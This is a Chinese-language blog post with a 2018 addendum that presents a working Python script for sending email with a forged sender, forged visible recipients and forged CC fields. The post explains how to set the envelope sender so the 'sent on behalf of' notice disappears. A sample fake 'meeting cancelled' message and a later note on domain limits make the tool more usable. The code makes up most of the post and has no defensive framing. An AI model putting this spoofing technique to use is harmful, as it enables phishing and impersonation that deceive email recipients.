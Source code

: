 ```yaml
---
title: Email Spoofing(Forged Sender/Recipients/CCs/BCCs)
date: 2017-12-27 20:55:06
tags: [Python, Network]
categories: [Python, Network]
---
```

如何发送一封完全伪造的电子邮件，伪造的发件人、收件人、伪造的抄送、密送、伪造的主题、正文、附件等。  
Talk is cheap, here is the code.  

```python
#!/usr/bin/env python3
# coding: utf-8
# File: email_spoofing.py
# Author: lxw
# Date: 12/27/17 6:08 PM

import smtplib
import traceback
from email.message import Message


def send_email(subject, content):
    try:
        real_sender, passwd, server = "real_sender@abc.cn", "password", "smtp.abc.cn"
        fake_sender = "fake_sender@abc.cn"
        real_recipients = ["real_recipient1@abc.cn", "real_recipient2@abc.cn", "real_recipient3@abc.cn"]
        fake_recipients = ["fake_recipient1@abc.cn", "fake_recipient2@abc.cn"]

        message = Message()
        message["Subject"] = subject
        message["From"] = fake_sender
        message["To"] = ";".join(fake_recipients)
        #Copy to
        #message["CC"] is only for display, to send the email we must specify it in the method "SMTP.sendmail".
        #message["CC"] = "real_recipients1@abc.cn,real_recipients2@abc.cn"
        message.set_payload(content)
        message.set_charset("utf-8")
        msg = message.as_string()

        sm = smtplib.SMTP(server)
        sm.set_debuglevel(0)    #sm.set_debuglevel(1)
        sm.ehlo()
        sm.starttls()
        sm.ehlo()
        sm.login(real_sender, passwd)

        sm.sendmail(fake_sender, real_recipients, msg)    # 注意： 这里必须是fake_sender，否则会出现"由XXX代发"的问题。
        sm.quit()
        return 0
    except Exception as e:
        traceback.print_exc()
        return 1


def main():
    subject = "明天上午会议取消"
    content = "伪造收件人、发件人、抄送人、邮件主题、邮件内容..."
    if send_email(subject, content) == 0:
        print("邮件发送成功")
    else:
        print("邮件发送失败")


if __name__ == '__main__':
    main()
```
**注意**： `sendmail()`的第一个参数必须是`fake_sender`不能是`real_sender`，否则会出现"由 \*\*\*@\*\*\* 代发"的问题(如下图所示)。  
</br>
![./forged_email.png](./forged_email.png)

### 20180129补充
今天一位同事尝试了上面的代码，发现收件人总是不能成功地收到伪造的邮件，**经测试发现针对上面的代码`fake_sender`与`real_sender`必须是同一个邮件域名下的邮箱(`fake_sender`可以是不存在的邮箱)**，否则就会导致收件人无法收到伪造的邮件。  
关于**能否以及如何**伪造不同域名下的邮箱`fake_sender`，我会尽快查阅并补充